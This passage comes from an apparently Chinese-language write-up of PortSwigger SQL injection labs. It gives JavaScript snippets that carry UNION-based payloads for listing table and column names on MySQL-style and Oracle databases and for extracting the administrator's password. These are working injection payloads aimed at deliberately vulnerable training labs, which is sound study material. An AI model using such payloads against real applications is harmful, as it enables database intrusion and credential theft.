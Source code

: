 列出 `users_fdytnd` 底下的 `column_name,data_type`，找到帳密的 columns 是 `username_lfypib` 跟 `password_tltvdy`

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Gifts' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name = 'users_fdytnd'-- ",
);
const href = url.href;
window.open(href, "_blank");
```

接下來就可以查詢 `administrator` 的密碼並且登入

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Gifts' UNION SELECT username_lfypib,password_tltvdy FROM users_fdytnd WHERE username_lfypib = 'administrator'-- ",
);
const href = url.href;
window.open(href, "_blank");
```

這題我覺得可以延伸，因為我以前從來沒有研究過 `information_schema` 這個 Database 的內容，所以我是直接下載 [XAMPP](https://www.apachefriends.org/zh_tw/download.html)，使用 `phpmyadmin` 的 GUI 來觀察 `information_schema` 的內容，並且嘗試下 SQL 語法，一步一步拆解，過程真的非常有趣～

## Lab: SQL injection attack, listing the database contents on Oracle

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/sql-injection/examining-the-database#listing-the-contents-of-an-oracle-database |
| Lab       | https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle       |

跟上一題的概念一樣，只是改成 Oracle 的語法，先用 `UNION SELECT NULL` 來猜出 `SELECT` 的 columns 數量

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Corporate gifts' UNION SELECT NULL,NULL FROM all_tables--",
);
const href = url.href;
window.open(href, "_blank");
```

確定是兩個 columns 後，把 `NULL` 改成 `table_name`，確定是 `USERS_LCHIFI` 這張 table

```js
const url = new URL(`${location.origin}/filter`);
url.searchParams.append(
  "category",
  "Corporate gifts' UNION SELECT table_name,NULL FROM all_tables--",
);
const href = url.href;
window.open(href, "_blank");
```
